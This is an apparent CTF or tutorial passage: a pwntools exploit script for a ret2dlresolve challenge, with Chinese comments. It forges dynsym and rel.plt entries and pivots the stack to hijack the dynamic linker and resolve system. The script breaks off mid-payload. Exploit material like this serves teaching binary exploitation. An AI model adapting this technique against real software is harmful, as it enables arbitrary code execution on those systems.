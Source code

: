 ​ **payload 详细版：**

```bash
from pwn import *
context.arch = "i386"
c=process('/ret2dl/pwn')
elf=ELF('/ret2dl/pwn')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

def hexp(name):
    print(hex(name))

# 取地址，做好准备工作。
plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr # ELF JMPREL Relocation Table
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr # 0x80481dc 
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

# hexp(plt0)
# hexp(rel_plt)
# hexp(dynsym)
# hexp(dynstr)
read_plt = elf.plt['read'] # 劫持调用
read_got = elf.got['read'] # got 篡改写入
leave_ret= 0x0804854A      # 栈迁移
writable_addr = 0x0804a700 
# 找一个可写的区域，我们将栈迁移过去，而且我们发现 ida 中最末尾的地址才 0x0804A080，我们写在 a700 后应该不会影响程序原有数据。
# 一.>>>>>>>>>>> 这里有个疑惑，为什么 a000 到 b000 都是可写的，但是只有 a700 后才能打通？
# 需要骗过_dl_runtime_resolve 函数的话，我们就需要伪造我们的 dynsym,dynstr,rel_plt 表，还有 reloc_index。

# 首先我们来构造 dynsym 表
Elf32_Sym_sys_addr = writable_addr + 32
# 构造了一个 Elf32_Sym 的结构体
align = 0x10-((Elf32_Sym_sys_addr-dynsym)&0xf) 
# 对齐操作
# 为什么要对齐呢？是相对于 dynsym 表而言的结构体地址，每个结构体的大小是 0x10 字节，所以要新构造一个的话当然要对齐啦。
# 对齐之后，更好在迁移栈中布局
Elf32_Sym_sys_addr += align   
# system 在 Dynsym 表中的结构体地址构造好了
# 接下来构造 system 的 dynsym 表的结构体内容
st_name = Elf32_Sym_sys_addr + 0x10 - dynstr 
Elf32_Sym_sys = p32(st_name) + p32(0) + p32(0) + p32(12) 
# 把最终的 system 函数名称布置到了 Elf32_Sym_sys_addr + 0x10 的位置，因为 dynsym 表中的第一个结构体占 0x10 个字节

# 现在构造.rel.plt 表
r_offset = read_got
r_index  = (Elf32_Sym_sys_addr-dynsym)/0x10
r_info   = int(r_index)<<8 | 0x7
# 现在倒推构造 reloc_index，也就是 dl 函数的第二个参数
# rel.plt 表的首地址值加上参数 reloc_index，即是 ELF REL Relocation Table 的指针
reloc_index = writable_addr - rel_plt + 24
# 将 rel.plt 结构布置在了 writable_addr + 24 处，为什么是 24 呢？
# 因为 32 是放 sym 结构体的位置，rel.plt 的结构体只占 8 字节
Elf32_rel_plt_sys = p32(r_offset) + p32(r_info) 
Elf32_rel_plt_sys_addr = reloc_index + rel_plt
# 伪造的.rel.plt 构造完成

# 伪造工作完成，现在开始利用：

# 第一次调用 read 函数，目的是完成第二次调用 read 函数的准备工作
payload1 = 0x2c * b'a'
payload1 += p32(read_plt)
payload1 += p32(0x0804852D) # vuln 函数地址
payload1 += p32(0)
```